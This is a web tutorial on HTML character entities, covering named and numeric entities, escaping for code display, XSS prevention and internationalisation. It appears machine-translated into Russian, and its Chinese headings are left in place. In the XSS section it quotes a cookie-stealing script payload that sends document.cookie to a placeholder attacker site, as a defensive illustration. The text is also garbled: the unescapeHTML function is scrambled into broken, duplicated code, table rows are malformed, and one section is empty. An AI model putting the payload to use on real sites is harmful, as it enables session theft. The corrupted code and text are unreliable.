


Когда вы видите на веб-странице перевернутые запятые, знаки "меньше" или другие специальные символы, вы когда-нибудь задумывались, как они правильно отображаются? За этим стоит ряд тщательно разработанных механизмов экранирования. Символьные сущности (Character Entities) - незаменимое знание в front-end разработке, но мало кто разбирается в них систематически. В этой статье мы подведем вас к всестороннему пониманию этих "невидимых героев", чтобы вы в самых разных сценариях разработки с легкостью использовали их.

<!--more-->

## 什么是字符实体？

Проще говоря, символьные сущности - это способ представления специальных символов в документах HTML и XML. Подобно тому, как мы используем кодовые слова (секретные коды), когда нам нужно отобразить определенные символы с особым значением в содержимом веб-страницы, нам нужен другой способ их представления.

Например, в HTML символы `<` и `>` используются для определения начала и конца тега. Если вы хотите отобразить эти символы в тексте так, чтобы браузер не воспринял их как часть тега, вам нужно использовать символьные сущности: `&lt;` для `<` и `&gt;` для `>`.

## 为什么我们需要字符实体？

Представьте, что вы - фронтенд-инженер, разрабатывающий сайт для отображения кода. Вам необходимо отображать на странице примеры HTML-кода:

```html
<div class="container">
  <p>Hello, world!</p>
</div>
```

Если вы поместите этот код непосредственно в HTML-документ, браузер будет интерпретировать его как фактическую структуру HTML, а не отображать сам код. Вот тут-то и пригодятся символьные сущности, которые нужно преобразовать:

```html
&lt;div class="container"&gt;
  &lt;p&gt;Hello, world!&lt;/p&gt;
&lt;/div&gt;
```

Таким образом, браузер корректно отображает исходный код, а не интерпретирует его для выполнения.

## 字符实体的分类和语法

### 命名实体

Именованные сущности - это наиболее распространенная и легко понимаемая форма символьных сущностей, которые имеют описательные имена в формате: `& имя сущности;`.

Ниже перечислены наиболее часто используемые именованные сущности:

| имя сущности | характер | описание |
|--------|------|------|
| `&lt;` | < | меньше, чем знак |
| `&gt;` | > | больше, чем знак |
| `&amp;` | & | И знак |
| `&quot;` | " | двойные кавычки |
| | `&apos;` | ' | Одинарные кавычки (XML и HTML5)|
| `&nbsp;` | (пробел) | без пробелов для переноса строки |
| | `&copy;` | © | Символ авторского права |
| `&reg;` | ® | Зарегистрированные торговые марки |



### 数字实体

Числовые сущности позволяют представлять символы, используя кодировку Unicode, в двух форматах:

1. **Десятичный формат**: `&#number;`.
   Пример: `&#169;` обозначает символ авторского права ©

2. **Шестнадцатеричный формат**: `&#x шестнадцатеричное число;`.
   Пример: `&#xA9;` также указывает на символ авторского права ©

Обратите внимание, что вместо того, чтобы выводить число, числовая сущность ищет и отображает соответствующий символ на основе введенного числового кода.

```mermaid
graph LR
    A["十进制: &#169;"] --> C["©"]
    B["十六进制: &#xA9;"] --> C
    
    style A fill:#f9f,stroke:#333,stroke-width:2px
    style B fill:#fbf,stroke:#333,stroke-width:2px
    style C fill:#bfb,stroke:#333,stroke-width:2px
```



## 实用场景与应用技巧

### 1. HTML代码展示

Когда вам нужно отобразить HTML-код на веб-странице, есть несколько способов сделать это:

**Метод 1: Ручная эвакуация**.

Заменяет все специальные символы на соответствующие им символьные сущности:

```javascript
function escapeHTML(html) {
  return html
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#39;');
}
```

**Метод 2: Использование тегов `<pre>` и `<code>`**.

Эти теги сохраняют форматирование текста, но при этом необходимо экранировать специальные символы:

```html
<pre><code>
&lt;div class="example"&gt;
  &lt;p&gt;这是一个例子&lt;/p&gt;
&lt;/div&gt;
</code></pre>
```

**Методология III: использование современных инструментальных библиотек**.

Библиотеки подсветки кода, такие как Highlight.js и Prism.js, автоматически обрабатывают экранирование.

### 2. 防止XSS攻击

Атаки межсайтового скриптинга (XSS) - одна из самых распространенных веб-атак. Если предположить, что ваш сайт позволяет пользователям добавлять комментарии, злоумышленник может вставить вредоносные скрипты, если пользовательский ввод не будет обработан:

```html
<script>document.location='http://攻击者网站?cookie='+document.cookie</script>
```

Такие атаки можно эффективно предотвратить, преобразовав специальные символы в пользовательском вводе в символьные сущности:

```javascript
// 用户输入: <script>alert('XSS')</script>
// 转换后: &lt;script&gt;alert('XSS')&lt;/script&gt;
// 浏览器显示: <script>alert('XSS')</script>（而不执行脚本）
```

### 3. 处理数据传输中的特殊字符

В процессе взаимодействия внешних и внутренних данных специальные символы часто приводят к ошибкам парсинга. Например, необходимо правильно обрабатывать специальные символы в данных JSON:

```javascript
// 不正确的JSON
{"message": "用户输入了"引号"和<标签>"}

// Корректный JSON (автоматически экранируется JavaScript)
{"message": "Пользователь ввел \"quote\" и <tag>"}

// 在HTML中显示时还需要HTML转义
&lt;p&gt;用户输入了&quot;引号&quot;和&lt;标签&gt;&lt;/p&gt;
```

### 4. 国际化和特殊符号

Сущности символов полезны, когда на вашем сайте необходимо отображать различные языки и специальные символы:

```html
<!-- 货币符号 -->
美元: &#36; ($)
欧元: &euro; (€)
英镑: &pound; (£)
日元: &yen; (¥)

<!-- 数学符号 -->
π值约等于3.14: &pi; ≈ 3.14
面积公式: S = &pi;r&sup2;
```

## 常见问题与解决方案

### 1. 多层转义问题

Иногда вы можете столкнуться с несколькими уровнями экранирования, например:

```
&amp;lt; → &lt; → <
```

Обычно это происходит, когда данные обрабатываются в нескольких системах. Решение заключается в том, чтобы понять поток данных и убедиться, что одноразовая экранировка выполняется в нужный момент.

### 2. 转义与解转义

Иногда необходимо выполнить escape на стороне сервера, а затем снять escape на стороне клиента:

```javascript
// 服务器端转义
const escapedHTML = '<p>Hello</p>'.replace(/</g, '&lt;').replace(/>/g, '&gt;');
// 发送到客户端: &lt;p&gt;Hello&lt;/p&gt;

// Снятие неэкранирования на стороне клиента
function unescapeHTML(html) {
  const textarea = document.createElement('textarea'); textarea.innerHTML = html; }
  textarea.innerHTML = html; return textarea.value; return textarea.value; html
  return textarea.value; }
}

// 或使用DOMParser
const parser = new DOMParser();
const dom = parser.parseFromString('&lt;p&gt;Hello&lt;/p&gt;', 'text/html');
const text = dom.body.textContent; // 得到: <p>Hello</p>
```

### 3. 实体在不同环境中的支持情况

Не все среды поддерживают символьные сущности:



## 高级应用与扩展知识

### Unicode字符和字符实体

Unicode присваивает уникальную кодировку почти каждому символу в мире. Вы можете использовать числовые сущности для представления любого символа Unicode:

```html
<!-- 笑脸表情 -->
&#128512; 或 &#x1F600; → 😀

<!-- 复杂的数学符号 -->
&#8747; 或 &#x222B; → ∫ (积分符号)
```

### 条件注释与字符实体

Условные комментарии используются в сочетании с символьными сущностями при решении проблем совместимости с различными браузерами:

```html
<!--[if IE]>
  &lt;link rel="stylesheet" href="ie-only.css"&gt;
<![endif]-->
```

### 动态生成内容中的字符实体处理

При использовании JavaScript для динамической генерации HTML-контента особое внимание следует уделить работе с символьными сущностями:

```javascript
// 不安全的方式
element.innerHTML = userInput; // 可能导致XSS攻击

// 安全的方式
element.textContent = userInput; // 自动转义
// 或
element.innerHTML = escapeHTML(userInput);
```

## 开发者工具与参考资源

### 实用工具

1. **Онлайн-конвертер символьных сущностей**: помогает быстро преобразовать HTML-текст
2. **Инструменты разработчика браузера**: просмотр фактического содержимого HTML при инспектировании элементов
3. **Плагины для редакторов**: например, HTML-плагин VSCode, который автоматически выделяет и конвертирует символьные сущности

### 完整参考

Полный список символов HTML можно найти на следующих ресурсах:

1. [Официальный справочник сущностей HTML](https://html.spec.whatwg.org/multipage/named-characters.html)
2. [W3C's Character Entity Reference](https://www.w3.org/TR/html4/sgml/entities.html)

## 结语

Символьные сущности являются неотъемлемой частью HTML- и XML-документов, овладение ими может не только помочь вам в решении повседневных вопросов разработки, но и повысить безопасность сайта и возможности интернационализации. Надеюсь, эта статья поможет вам полностью разобраться в символьных сущностях, а в реальной разработке использовать гибкие приложения.

Приходилось ли вам сталкиваться с проблемами при разработке из-за неправильного обращения со специальными символами? Решило ли правильное использование сущностей символов ваши проблемы? Не стесняйтесь применять знания из этой статьи в реальных проектах и подумайте, как более элегантно управлять многоуровневой экранировкой.